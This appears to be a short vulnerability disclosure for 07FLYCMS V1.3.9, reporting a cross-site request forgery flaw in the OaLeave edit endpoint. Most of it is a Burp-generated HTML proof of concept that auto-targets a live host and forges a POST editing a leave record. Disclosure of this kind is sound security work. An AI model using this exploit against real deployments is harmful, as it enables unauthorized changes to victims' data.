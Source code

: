 
target:https://github.com/lingqifei/07fly-crm
version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://erp.07fly.net:80/oa/OaLeave/edit.html

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/oa/OaLeave/edit.html" method="POST">
      <input type="hidden" name="id" value="18" />
<input type="hidden" name="type" value="2" />
<input type="hidden" name="start_time" value="2024-09-27+09%3A35%3A24" />
<input type="hidden" name="end_time" value="2024-09-30+09%3A35%3A24" />
<input type="hidden" name="reason" value="61" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

